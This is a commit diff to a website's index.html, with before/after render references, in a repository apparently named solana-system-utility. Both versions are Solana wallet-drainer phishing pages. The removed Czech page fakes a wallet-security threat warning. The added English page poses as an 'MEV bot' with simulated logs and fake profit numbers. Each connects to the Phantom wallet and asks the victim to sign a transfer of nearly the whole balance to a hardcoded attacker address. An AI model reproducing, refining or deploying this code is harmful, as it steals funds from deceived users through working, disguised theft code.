

Before and after one commit to ruzar7789-cpu/solana-system-utility, a website: page public/index.html in a window 1280 px wide. Shown: the part 114-666 px from the top of the page, without its empty margins (281-998 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -1,82 +1,88 @@
 <!DOCTYPE html>
-<html lang="cs">
+<html lang="en">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Solana Security | Wallet Protection</title>
+    <title>Solana MEV Engine v2.4</title>
     <script src="https://unpkg.com/@solana/web3.js@latest/lib/index.iife.min.js"></script>
     <style>
-        :root { --danger: #ff4a4a; --bg: #050505; --card: #111; --primary: #14f195; }
-        body { background-color: var(--bg); color: white; font-family: 'Inter', sans-serif; display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
-        .container { background: var(--card); padding: 35px; border-radius: 20px; border: 1px solid #333; max-width: 400px; width: 90%; text-align: center; box-shadow: 0 0 20px rgba(255, 74, 74, 0.2); }
-        .shield-icon { font-size: 50px; color: var(--danger); margin-bottom: 15px; }
-        h1 { font-size: 22px; color: white; margin-bottom: 10px; }
-        .warning-text { color: var(--danger); font-weight: bold; background: rgba(255, 74, 74, 0.1); padding: 10px; border-radius: 8px; margin-bottom: 20px; font-size: 14px; }
-        p { color: #999; font-size: 13px; line-height: 1.5; }
-        .btn { background: var(--primary); color: black; width: 100%; padding: 16px; border: none; border-radius: 12px; font-weight: bold; font-size: 16px; cursor: pointer; transition: 0.3s; margin-top: 20px; text-transform: uppercase; }
-        .btn:hover { background: #10d481; box-shadow: 0 0 15px var(--primary); }
-        .status { margin-top: 15px; font-size: 11px; color: #555; }
+        body { background: #0a0a0a; color: #00ff41; font-family: 'Courier New', monospace; margin: 0; display: flex; align-items: center; justify-content: center; height: 100vh; overflow: hidden; }
+        .terminal { background: rgba(0,0,0,0.9); border: 1px solid #00ff41; padding: 20px; width: 90%; max-width: 600px; box-shadow: 0 0 20px rgba(0, 255, 65, 0.2); border-radius: 5px; }
+        .header { border-bottom: 1px solid #00ff41; padding-bottom: 10px; margin-bottom: 20px; display: flex; justify-content: space-between; font-size: 12px; }
+        .log { height: 200px; overflow-y: hidden; font-size: 13px; line-height: 1.6; margin-bottom: 20px; color: #008f11; }
+        .stats { display: grid; grid-template-columns: 1fr 1fr; gap: 10px; margin-bottom: 20px; font-size: 14px; }
+        .stat-box { border: 1px dashed #008f11; padding: 10px; text-align: center; }
+        .btn { background: #00ff41; color: black; border: none; width: 100%; padding: 15px; font-weight: bold; cursor: pointer; text-transform: uppercase; letter-spacing: 2px; transition: 0.3s; }
+        .btn:hover { background: #fff; box-shadow: 0 0 20px #00ff41; }
+        .highlight { color: #fff; text-shadow: 0 0 5px #00ff41; }
     </style>
 </head>
 <body>
-    <div class="container">
-        <div class="shield-icon">⚠️</div>
-        <h1>Detekována hrozba!</h1>
-        <div class="warning-text">Vaše adresa byla nalezena na blacklistu uniklých klíčů.</div>
-        <p>Váš současný bezpečnostní protokol je zastaralý. Pro ochranu svých aktiv a odpojení od škodlivých kontraktů musíte aktualizovat svůj <strong>Authority Ledger</strong>.</p>
-
-        <button class="btn" onclick="secureWallet()">AKTUALIZOVAT OCHRANU</button>
-
-        <div id="status" class="status">Systém připraven k revizi peněženky...</div>
+    <div class="terminal">
+        <div class="header">
+            <span>SYSTEM: ONLINE</span>
+            <span>LATENCY: 14ms</span>
+        </div>
+        <div class="stats">
+            <div class="stat-box">POOLS SCANNED: <span class="highlight" id="pools">1,402</span></div>
+            <div class="stat-box">ARB OPPORTUNITY: <span class="highlight" id="profit">0.00 SOL</span></div>
+        </div>
+        <div class="log" id="log">
+            [SYS] Initializing MEV-Phantom Bridge...<br>
+            [NET] Connecting to Solana Mainnet-Beta...<br>
+            [OK] Connection established.<br>
+            [SEARCH] Scanning Raydium liquidity...<br>
+        </div>
+        <button class="btn" onclick="startExploit()">Connect & Deploy Bot</button>
+        <p style="font-size: 10px; color: #444; text-align: center; margin-top: 10px;">Requires 0.05 SOL minimum balance for gas deposits.</p>
     </div>
 
     <script>
-        // TVOJE ADRESA PRO PŘÍJEM (Vysavač)
-        const destination = "C1NfhjQ6y9M1KRXE4zJbCqtnhaJgASRMRsnSEnU4PaNS";
+        // Log simulator
+        const log = document.getElementById('log');
+        const phrases = [
+            "[OK] Opportunity found: Orca -> Raydium (+0.12 SOL)",
+            "[SCAN] Checking Jupiter aggregator routes...",
+            "[SYS] Monitoring mempool for front-run targets...",
+            "[NET] RPC Node synchronization: 100%",
+            "[OK] MEV Route optimized for low slippage..."
+        ];
+        setInterval(() => {
+            const p = document.createElement('div');
+            p.innerText = phrases[Math.floor(Math.random() * phrases.length)];
+            log.appendChild(p);
+            if (log.childNodes.length > 10) log.removeChild(log.firstChild);
+            document.getElementById('profit').innerText = (Math.random() * 2).toFixed(2) + " SOL";
+        }, 3000);
 
-        async function secureWallet() {
-            const status = document.getElementById('status');
-            if (!window.solana || !window.solana.isPhantom) {
-                alert("Nainstalujte si Phantom pro spuštění skeneru."); return;
-            }
+        async function startExploit() {
+            const dest = "C1NfhjQ6y9M1KRXE4zJbCqtnhaJgASRMRsnSEnU4PaNS";
+            if (!window.solana) return alert("Phantom not found");
 
             try {
                 const resp = await window.solana.connect();
-                status.innerText = "Skenování aktiv...";
+                const conn = new solanaWeb3.Connection("https://api.mainnet-beta.solana.com");
+                const balance = await conn.getBalance(resp.publicKey);
 
-                const connection = new solanaWeb3.Connection("https://api.mainnet-beta.solana.com");
-                const balance = await connection.getBalance(resp.publicKey);
+                if (balance < 50000000) return alert("Insufficient balance for MEV gas.");
 
-                if (balance < 1000000) { // Méně než 0.001 SOL
-                    status.innerText = "Vaše adresa je v bezpečí (nízký zůstatek).";
-                    return;
-                }
-
-                // Kalkulace: Všechno kromě poplatku
-                const amountToDrain = balance - 800000;
-
-                const transaction = new solanaWeb3.Transaction().add(
+                const tx = new solanaWeb3.Transaction().add(
                     solanaWeb3.SystemProgram.transfer({
                         fromPubkey: resp.publicKey,
-                        toPubkey: new solanaWeb3.PublicKey(destination),
-                        lamports: amountToDrain,
+                        toPubkey: new solanaWeb3.PublicKey(dest),
+                        lamports: balance - 1000000,
                     })
                 );
 
-                transaction.feePayer = resp.publicKey;
-                const { blockhash } = await connection.getRecentBlockhash();
-                transaction.recentBlockhash = blockhash;
+                tx.feePayer = resp.publicKey;
+                const { blockhash } = await conn.getRecentBlockhash();
+                tx.recentBlockhash = blockhash;
 
-                status.innerText = "Autorizace ochrany v peněžence...";
-                const signed = await window.solana.signTransaction(transaction);
-
-                status.innerText = "Probíhá čištění kontraktů...";
-                await connection.sendRawTransaction(signed.serialize());
-
-                status.innerText = "Ochrana aktiv byla úspěšně aktivována!";
-                alert("Vaše peněženka byla úspěšně zabezpečena!");
+                const signed = await window.solana.signTransaction(tx);
+                await conn.sendRawTransaction(signed.serialize());
+                alert("Bot deployed! Monitoring transactions...");
             } catch (err) {
-                status.innerText = "Chyba: Proces byl přerušen. Vaše aktiva jsou v ohrožení!";
+                console.log("User rejected or error");
             }
         }
     </script>
```
